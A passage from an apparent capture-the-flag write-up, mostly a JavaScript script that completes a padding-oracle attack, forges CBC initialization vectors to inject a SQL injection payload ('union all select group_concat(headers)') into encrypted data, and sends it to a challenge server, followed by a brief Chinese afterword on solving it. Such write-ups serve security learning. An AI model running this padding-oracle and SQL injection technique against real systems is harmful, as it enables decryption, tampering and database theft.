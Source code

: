 ```javascript
                    let tempPlainText = paddingValue ^ (paddingOracleValue + 1);
                    plainText.push(tempPlainText);
                    plain.unshift(Buffer.from([tempPlainText ^ originalIv[(block) * 16 - 1 - paddingOracleValue]]).toString('hex'))
                    answer.reverse()
                    let nextPaddingOracleValue = (paddingOracleValue + 2);
                    for (let index = 0; index < plainText.length; index++) {
                        answer[index] = plainText[index] ^ nextPaddingOracleValue;
                    }
                    answer.reverse()
                    console.log(plain);
                    break;
                }
            }
        }
        const wantedPlainText = [
            '{"id": "9 union ',
            'all select group',
            '_concat(headers)',
            ' ,2 FROM trackin',
            'g", "b": "bbbbbb',
            'bbbbbbbbbbbbbbbb',
            'bbbbbbbbbbbbbbbb',
            'bbb", "bbbbbb":"',
            'YA~~"}\n\n\n\n\n\n\n\n\n\n'
        ]
        const originalIv = Buffer.from(previousIv, 'hex')
        const change = plain.map(item => parseInt(item, 16))
        console.log('old: ' + Buffer.from(change).toString());
        console.log('new: ' + wantedPlainText[block - 1]);
        const originPlainText = Buffer.from(change)
        const wanttedPlainText = Buffer.from(wantedPlainText[block - 1])
        const wanttedIv = []
        for (let index = 0; index < wanttedPlainText.length; index++) {
            wanttedIv.push(originalIv[index] ^ originPlainText[index] ^ wanttedPlainText[index])
        }
        let newIv = Buffer.from(wanttedIv).toString('hex')
        let part1 = originalPayload.substring(0, (block - 1) * 32);
        let part3 = originalPayload.substring((block) * 32);
        originalPayload = `${part1}${newIv}${part3}`
        console.log(`replaced block: ${block}`);
        console.log(`next block: ${block - 1}`);
        console.log(`new payload: ${encodeHexToBase64(originalPayload)}`);
    }
    axios.get(`http://34.74.105.127/548dbda597/?post=${encodeHexToBase64(originalPayload)}`).then((response) => {
        console.log(response.data)
    })
})();
```

# 後記

這題花了我很多時間解決 XD  
本來想說最後的 SQL Injection 就不要解了，反正大概知道怎麼弄  
但還是很想把它解出來，所以就還是想辦法透過程式自動化去找到最後的 flag  
只是過程中一直修改 wantedPlainText 再加上還會一直斷線真的是有夠麻煩 XD  